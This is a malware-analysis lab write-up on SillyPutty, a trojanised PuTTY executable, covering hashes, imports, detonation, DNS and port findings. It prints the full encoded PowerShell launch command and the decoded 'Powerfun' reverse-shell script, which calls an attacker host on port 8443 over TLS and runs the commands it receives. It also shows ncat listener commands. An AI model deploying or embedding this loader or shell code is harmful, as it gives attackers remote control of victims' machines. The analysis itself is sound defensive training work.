




# Malware Analysis : SillyPutty


# Report - Malware Analysis - SillyPutty.exe


| Difficulty | Start Date & Time  | Finish Date & Time |
| ---------- | ------------------ | ------------------ |
| Easy       | 09/11/2023 - 11h53 | 09/11/2023 - 12h46 |

## Instructions
```
Hello Analyst,

The help desk has received a few calls from different IT admins regarding the attached program. They say that they've been using this program with no problems until recently. Now, it's crashing randomly and popping up blue windows when it's run. I don't like the sound of that. Do your thing!

IR Team
```

---
## Basic Static Analysis

### Tools
- File hashes
- VirusTotal
- FLOSS
- PEStudio
- PEView

### Questions
#### 1) What is the SHA256 hash of the sample?

To find the SHA256 of the sample `putty.exe`, I used `sha256sum.exe` already available on FlareVM. I also calculated the MD5 with `md5sum.exe`.
```
SHA256: 0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83
MD5: 334a10500feb0f3444bf2e86ab2e76da
```

#### 2) What architecture is this binary?

To get the architecture of `putty.exe`, I used `PEStudio`. Then, by clicking on the root directory, the architecture information will be available. 



As I can see, the architecture is `32-bit`.

#### 3) Are there any results from submitting the SHA256 hash to VirusTotal?

Yes there is, as you can see on the screenshot below. ([The VirusTotal result can be found here](https://www.virustotal.com/gui/file/0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee8))


I can see the file is flagged as malicious. However, I won't dwell on VirusTotal. The aim here is to find the information by myself, as if the sample was still unknown.

#### 4) Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?

To pull the strings out of this binary, I used `FLOSS` with the command `floss putty.exe > output-floss.txt`. From what I can see, the majority of the strings belong to the original PuTTY binary. Thus, it is difficult to spot any interesting strings. 

**Supposition** : the malicious actor has probably hidden some malicious code or a backdoor into the legitimate binary. This way, it is more difficult for a malware analyst to spot it quickly. 

#### 5) Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?

To inspect the Import Address Table (IAT), I can again use `PEStudio`. Clicking on the `imports` section allows us to check the imported functions. 


As I said in the previous answer, the binary correspond to the legitime PuTTY binary with probably a backdoor in it. Thus, the inspection of the IAT doesn't reveal anything interesting. However, from my perspective as a junior analyst, it's quite appealing to import functions to add, delete and enumerate registry keys, even if in this case it's legitimate. 



There is also functions like `GetClipboardData` and `ShellExecuteA` that are being imported. But those can also be legitimate for the regular usage of PuTTY.

#### 6) Is it likely that this binary is packed?

It doesn't seem to be packed at first sight as I can read the IAT completely. But, I can verify it is not packed by comparing `Virtual Size` and `Size of Raw Data` of `putty.exe`. To do so, I have to open our binary in `PEView`. Then, by clicking on `IMAGE_SECTION_HEADER .text`, I can see the values I need.


|                  | Size (in Hex) | Size (in Dec) |
| ---------------- | ------------- | ------------- |
| Virtual Size     | 00095F6D      | 614253        |
| Size of Raw Data | 00096000      | 614400        |
| Size Difference  | 00000093      | 147           |

As I can see, the difference between the two is almost null. Since the size are almost equal, it means that thsi binary doesn't seem to be packed.

---

## Basic Dynamic Analysis

### Tools 
- Wireshark
- Inetsim
- Netcat
- TCPView
- Procmon

### Questions 
#### 1) Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?

During the first detonation, I can see a blue terminal prompt popping briefly on the screen. It seems to be a PowerShell command prompt. At the same time, the PuTTY GUI opens.



There doesn't seem to be any differences between a detonation with and without internet simulation. During my test, I launched `Wireshark` and found an interesting DNS request to the following domain : `bonus2.corporatebonusapplication.local`. 


I can notice there is also some TCP RST packets. I don't really know what to do with that information but I thought it would be great to keep it in case of.

#### 2) From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?

In order to get the main payload that is initiated at detonation, I decided to use `ProcMon`. First, I launched it and created two filters :

1. `Process Name` *contains* `putty.exe`
2. `Details` *contains* `Command`


Then, I executed the malicious binary. As expected, I got some interesting results appearing. 


I noticed that Powershell was called with the PID `5820`. I expanded the `Detail` section in order to get more informations about what is being executed.

```powershell
Date:	11/11/2023 6:19:21.9411828 PM
Thread:	5008
Class:	Process
Operation:	Process Create
Result:	SUCCESS
Path:	C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
Duration:	0.0000000
PID:	5820
Command line:	powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

I can see this is a Powershell command with differents options. Let's detail each one of them. 

- `-nop` : Equivalent for `-NoProfile`. Allows to NOT load the Windows Powershell profile. A PowerShell profile is a script that runs when PowerShell is started to customize your environment. Since it's not needed to execute a malicious payload, it's better for an attacker to bypass it and avoid any scripts that could prevent its execution. 

- `-w hidden` : Equivalent for `-WindowStyle`. Allows to hide the window when executing the command (but this shows a window for a while, which is why we're seeing a blue powershell window briefly while detonating the malware).

- `-noni` : Equivalent for `-NonInteractive`. Allows to NOT display an interactive interface for the user.

- `-ep bypass` : Equivalent for `-ExecutionPolicy`. Allows to bypass the execution policy. In this case, it is necessary to execute the payload (which is a powershell script).

- `System.IO.Compression.GzipStream()` : Methods and properties used to compress and decompress data flows in gzip data format. In this case, it means the payload is compressed in gzip.

- `FromBase64String()` : Method to convert a string into base64. In this case, the string is equivalent to the payload.

I decided to decode the payload using `Cyberchef`, already present on the FlareVM. To do so, I pasted it under the `Input` section. Then, under the `Recipe` section, I dragged `From Base64` and `Gunzip` to get the content.


You can find the full decoded content below :

```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```

This is a script called `PowerFun` which has been written by Ben Turner & Dave Hardy from what I can read. The first thing I notice is the command that is ran after executing the payload : `powerfun -Command reverse -Sslcon true`. It will enter in the following condition :

```powershell
if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }
```

The purpose of this code is to create a reverse shell by initiating a **TCP connection** to an endpoint controlled by the attacker (`bonus2.corporatebonusapplication.local`) on port `8443`. 

The purpose of `-Sslcon true` is to enable SSL/TLS encryption. 

```powershell
if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }
```

This is meant to prevent anyone from reading the traffic between the compromised host and the attacker's endpoint. 

*TL;DR: the aim is to create a reverse shell between the compromised host and the attacker's endpoint through an SSL/TLS encrypted TCP connection. *

#### 3) What is the DNS record that is queried at detonation?

The DNS record that is queried at detonation is `bonus2.corporatebonusapplication.local`. I got this information in the decoded `PowerFun` script as well as in `Wireshark`.

```powershell
...
if ($Command -eq "reverse")
    {
	    ...
        "bonus2.corporatebonusapplication.local"
        ...
    }
...
```

#### 4) What is the callback port number at detonation?

The callback port number at detonation is `8443`.  I got this information in the decoded `PowerFun` script as well as in `Wireshark`.

```powershell
...
if ($Command -eq "reverse")
    {
	    ...
        8443
        ...
    }
...
```

#### 5) What is the callback protocol at detonation?

The callback port number at detonation is `TCP`. I got this information in the decoded `PowerFun` script as well as in `Wireshark`.

```powershell
...
if ($Command -eq "reverse")
    {
	    ...
        $client = New-Object System.Net.Sockets.TCPClient(...)
        ...
    }
...
```

#### 6) How can you use host-based telemetry to identify the DNS record, port, and protocol?

I can use host-based telemetry to identify the DNS record, port and protocol by using `ProcMon`. Indeed, from what I saw in the script, `powershell.exe` is initiating a `TCP` connection. Thus, I have to set up the 2 following filters :

1. `Process Name` *contains* `powershell.exe`
2. `Operation` *contains* `TCP`


I can see all of the needed informations on the above `ProcMon` screenshot.

#### 7) Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?

In order to spawn a reverse shell, I need to complete 2 operations :

1. **Act as the malicious server receiving the connection**. To do so, modify the `C:/Windows/System32/drivers/etc/hosts` file by adding the line 
	```
	127.0.0.1            bonus2.corporatebonusapplication.local
	```

2. **Set up a `netcat` listener on port 8843**. To do so, I just ran the following command :
	```
	ncat -lvnp 8443
	```

That said, command execution doesn't seems to work.



Indeed, I saw previously that it used SSL/TLS encryption mechanism, justifying all those weird characters we're seeing on the terminal. To fix that problem, I slightly modified my `netcat` command to support SSL :
```
ncat --ssl -lvnp 8443
```


Getting this working reverse shell conclude this challenge.

---

## Conclusion

This challenge includes all the concepts covered in the course so far. It allows you to consolidate what you've learned, while offering the chance to go deeper by decoding the powershell payload. As a regular CTF player, it wasn't difficult for me to achieve this but it's a great mean to develop your skills and curiosity by going deeper by yourself. (:
